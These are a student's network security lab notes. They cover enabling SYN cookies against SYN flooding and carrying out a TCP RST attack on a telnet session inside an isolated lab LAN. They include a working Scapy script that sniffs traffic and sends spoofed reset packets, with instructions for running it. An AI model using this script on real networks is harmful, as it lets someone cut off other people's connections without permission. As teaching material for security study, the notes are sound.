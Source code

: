 # Task 1.3 Enable SYNC Cookie
Enable SYNC Cookie run `sysctl -w net.ipv4.tcp_syncookies=1` in the victim machine
## Attack
![Pasted image 20231001111701.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001111701.png)
## SYNC received
on the client side, after enabling, the number of sync request received is significantly more than the actual size of the queue, which mean the queue is not blocked
![Pasted image 20231001113814.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001113814.png)
## Telnet
![Pasted image 20231001113940.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001113940.png)
Without significant wait, we are able to connect to the victim host directly

# Task 2: TCP RST Attacks on `telnet` Connection
```python
from scapy.all import *

def RSTattack(pkt):
    if IP in pkt and TCP in pkt:
        ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
        tcp = TCP(sport=pkt[TCP].sport, dport=pkt[TCP].dport, flags="R", seq=pkt[TCP].seq)
        spoofedPkt = ip/tcp
        ls(spoofedPkt)
        send(spoofedPkt, verbose=0)

sniff(iface='br-c26fa13374f9', filter='tcp', prn=RSTattack)
```
## Result
When the client initiate a telnet connection, the attacker side will sniffed this tcp packet and try to construct a TCP packet with the same sender and receiver information with a reset flag
To carry out the attack
1. Run `python3 rst.py` on the `attacker` machine
2. Run `telnet 10.9.0.5 23` to initiate a telnet connection from the client machine to the victim server
You will see the connection being established and soon being terminated by the server because the attacker send a `RST` packet to the server to terminate the connection
>[!warning]
>This attack is carried out under assumption that all the machines are under the same `LAN`
## Attacker Output
![Pasted image 20231001120950.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001120950.png)
it is spoofing a packet with flag set to `R` which is the RST flag
## Client output
![Pasted image 20231001121725.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001121725.png)
it first connected, but the connection soon being closed
